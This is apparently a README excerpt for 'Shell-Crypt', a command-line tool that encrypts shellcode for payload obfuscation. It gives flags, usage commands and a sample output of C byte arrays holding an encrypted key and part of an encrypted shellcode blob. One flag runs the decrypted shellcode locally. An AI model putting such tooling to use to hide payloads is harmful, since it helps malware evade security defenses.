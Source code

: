 ### Optional Arguments
| Argument | Description |
| - | - |
| -p | Print out the plain text version of the key and shellcode
| -q | Suppress the encrypted shellcode output in stdout. Only shows the key, hint byte & decryption functions.
| -t | QOL feature. Run the key / shellcode through the decryption process & execute in local thread to validate functionality

### Usage Examples
- Generate a 256 byte key, write encrypted shellcode to file.  
    - `Shell-Crypt.exe gen-256 ./shellcode.bin ./encrypted.bin`  

- Encrypt shellcode with key `00d74f9fbbe24026a9bbb65504c51689`, output to file, only print key / decryption function to terminal
    - `Shell-Crypt.exe 00d74f9f-bbe2-4026-a9bb-b65504c51689 ./shellcode.bin ./encrypted.bin -q`  

- Generate a 56 byte key, output to file & show the plain text version of the shellcode  
    - `Shell-Crypt.exe gen-56 ./shellcode.bin ./encrypted.bin -p `

- Generate a 200 byte key, output to file, only show decryption components, validate the key / shellcode
    `Shell-Crypt.exe gen-200 ./shellcode.bin ./encrypted.bin -t -q`  

</br>

## Output sample

```
// Used by the DecryptKey function to determine what the original key was. Hint byte
// is the unencrypted value of the first byte in the key.
//
BYTE HintByte = 0x6E;

// The encrypted encyption key for the shellcode.
//
char Key[128] = {
        0x99,0x46,0xED,0xAC,0xE9,0x76,0x21,0xD7,0x9F,0xA9,0x62,0xA8,0x44,0x16,0xAA,0x6E,      
        0x27,0x59,0xF8,0x4B,0xB6,0xBC,0x1E,0x6D,0x14,0xC5,0xB9,0x6D,0x27,0xD3,0x3D,0x59,      
        0x74,0x36,0xA6,0x72,0xCA,0xA1,0x30,0xF6,0x5F,0x01,0x31,0x1C,0x4D,0x3B,0x6C,0x11,      
        0x2A,0x58,0x66,0x56,0xBA,0x00,0x84,0xA6,0x36,0x78,0xBB,0xA8,0xBA,0xBB,0x86,0xAA,      
        0x70,0x8A,0x36,0xC8,0x1E,0x33,0xDB,0x3F,0x81,0xD3,0x85,0xB5,0x57,0xAD,0xDA,0x85,      
        0x9D,0x86,0xE5,0x3C,0x3D,0x66,0x83,0x15,0xA6,0xEF,0xFE,0xD5,0xFA,0x1C,0x06,0x36,
        0x58,0xF8,0x03,0x05,0x1E,0x84,0xFB,0xAA,0xED,0xE7,0xD4,0x3B,0xDA,0xC3,0xEA,0xD0,
        0x49,0xEC,0xEE,0x55,0x88,0x37,0x03,0xC2,0x2C,0x05,0xF8,0xBA,0x2E,0x5D,0xA4,0x36
};

// The encrypted shellcode.
//
char shellcode[776] = {
        0x92,0xF8,0x9B,0xBC,0xEA,0x94,0x1C,0x19,0x60,0x55,0xCA,0x05,0xE6,0x84,0x1D,0xC2,
        0xF1,0x4F,0xAC,0xCC,0x65,0xBD,0x81,0xE3,0x9D,0x51,0xBF,0x2D,0xAC,0x4F,0x27,0xDD,
        0x43,0xE8,0xA4,0x10,0x49,0x79,0xAE,0x6D,0xCA,0x87,0xD1,0xF1,0x47,0xD7,0x5C,0x77,
        0x01,0x42,0x3E,0x12,0x1B,0xEE,0x1D,0x5B,0x48,0x9F,0x1F,0x65,0x10,0xCE,0xD1,0xF3,
        0x15,0x74,0xF4,0xAE,0x85,0x3E,0xB7,0x0A,0x6C,0xE7,0x60,0xF6,0x84,0x6B,0x5E,0x5B,
        0x02,0x2B,0xC2,0x77,0xF3,0x4E,0x1E,0x8B,0xF9,0x34,0x2F,0x4F,0xB1,0x8E,0x93,0x2A,
        0xCA,0x6E,0xE6,0xE8,0xCD,0x0F,0x76,0xB2,0x39,0xE7,0x99,0x28,0xC0,0x17,0xFF,0x33,
        0x06,0xB2,0x44,0x79,0x46,0x7A,0xB7,0xF6,0x9C,0xB0,0xD4,0x59,0x69,0xA5,0x9D,0x43,
        0xB8,0xF8,0x29,0x98,0x5B,0xBD,0x19,0x14,0xCC,0x14,0x8A,0x95,0x9F,0x34,0x3A,0x7B,
        0x8C,0x9E,0xB1,0x8D,0x25,0x73,0xEA,0x52,0xBE,0xC1,0x6C,0x3B,0x3F,0x47,0x88,0xC6,
        0x62,0x70,0x49,0x23,0x92,0x3D,0xE9,0x9E,0x0B,0x8D,0x80,0x89,0x8F,0x4F,0x2C,0x3C,
        0xA9,0xF6,0x1E,0x36,0x51,0xC3,0xED,0x5B,0xD1,0x08,0x4B,0x7E,0x50,0x57,0x72,0x47,
        0x06,0x66,0x37,0x7F,0x49,0x5F,0xA7,0xD3,0xD1,0x3B,0x70,0xB6,0x0D,0x57,0x97,0xA8,
```